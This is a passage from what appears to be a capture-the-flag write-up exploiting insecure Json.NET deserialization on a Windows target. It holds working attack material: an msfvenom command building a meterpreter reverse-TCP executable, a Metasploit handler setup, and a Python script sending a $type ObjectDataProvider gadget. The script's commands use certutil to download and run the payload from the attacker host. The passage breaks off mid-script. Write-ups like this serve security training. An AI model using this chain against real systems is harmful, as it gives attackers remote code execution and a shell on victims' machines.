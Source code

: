`Json.Net`? Didn't know how to exploit but I came across this [tool](https://github.com/pwntester/ysoserial.net) that is able to generate some sort of payload to execute commands ? What was neat was that the first example actually suited our needs and all we have to do is change the command executed.

# Exploitation (1)

First, we need to generate our `meterpreter` payload and serve it using `SimpleHTTPServer` on port 80.
{% highlight bash %}
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.XX.XX LPORT=XXXX -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
{% endhighlight %}

Next, we set up our reverse shell handler using `msfconsole`:
{% highlight bash %}
$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set LHOST 10.10.XX.XX
LHOST => 10.10.XX.XX
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => XXXX
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run                                                                            
[*] Started reverse TCP handler on 10.10.XX.XX:XXXX
{% endhighlight %}

And now our exploit script to pull everything together:
{% highlight python %}
import base64
import requests
import json

IP = "10.10.XX.XX"
PORT = "XXXX"

template = r"""
{
    "$type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "MethodParameters":{
        "$type":"System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "$values":["cmd","/c %s"]
    },
    "ObjectInstance":{"$type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"}
}
"""

commands = [
	r"mkdir c:\\tmp",
	r"certutil -f -split -urlcache http://%s:%s/shell.exe c:\\tmp\\shell.exe" % (IP, PORT),
	r"c:\\tmp\\shell.exe"
]

for command in commands:
	payload = template % (command,)